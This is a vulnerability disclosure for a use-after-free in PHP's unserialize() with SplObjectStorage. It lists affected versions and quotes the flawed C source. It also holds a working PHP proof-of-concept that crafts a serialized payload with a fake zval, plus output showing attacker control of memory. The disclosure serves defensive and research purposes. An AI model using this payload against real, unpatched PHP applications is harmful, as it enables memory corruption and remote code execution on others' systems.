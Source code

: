 #Yet Another Use After Free Vulnerability in unserialize() with SplObjectStorage
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.8.27 - Release Date: 2015.9.4
 
> A use-after-free vulnerability was discovered in unserialize() with SplObjectStorage object's deserialization and crafted object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.13  
Affected is PHP 5.5 < 5.5.29  
Affected is PHP 5.4 < 5.4.45

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
		ALLOC_INIT_ZVAL(pentry);
		if (!php_var_unserialize(&pentry, &p, s + buf_len, &var_hash TSRMLS_CC)) {
			zval_ptr_dtor(&pentry);
			goto outexcept;
		}
		if(Z_TYPE_P(pentry) != IS_OBJECT) {
			goto outexcept;
		}
		ALLOC_INIT_ZVAL(pinf);
		if (*p == ',') { /* new version has inf */
			++p;
			if (!php_var_unserialize(&pinf, &p, s + buf_len, &var_hash TSRMLS_CC)) {
				zval_ptr_dtor(&pinf);
				goto outexcept;
			}
		}
```

It has been demonstrated many times before that __wakeup() leads to ZVAL is freed from memory. However during deserialization will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.6.12.

```
<?php

class obj {
	var $ryat;
	function __wakeup() {
		$this->ryat = 1;
	}
}

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$inner = 'x:i:1;O:8:"stdClass":0:{},i:1;;m:a:0:{}';
$exploit = 'a:5:{i:0;i:1;i:1;C:16:"SplObjectStorage":'.strlen($inner).':{'.$inner.'}i:2;O:3:"obj":1:{s:4:"ryat";R:3;}i:3;R:6;i:4;s:'.strlen($fakezval).':"'.$fakezval.'";}';

$data = unserialize($exploit);

var_dump($data);

function ptr2str($ptr)
{
	$out = '';
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(5) {
  [0]=>
  int(1)
  [1]=>
  &int(1)
  [2]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
  [3]=>
  int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
  [4]=>
  string(24) "?v?B????"
}
```
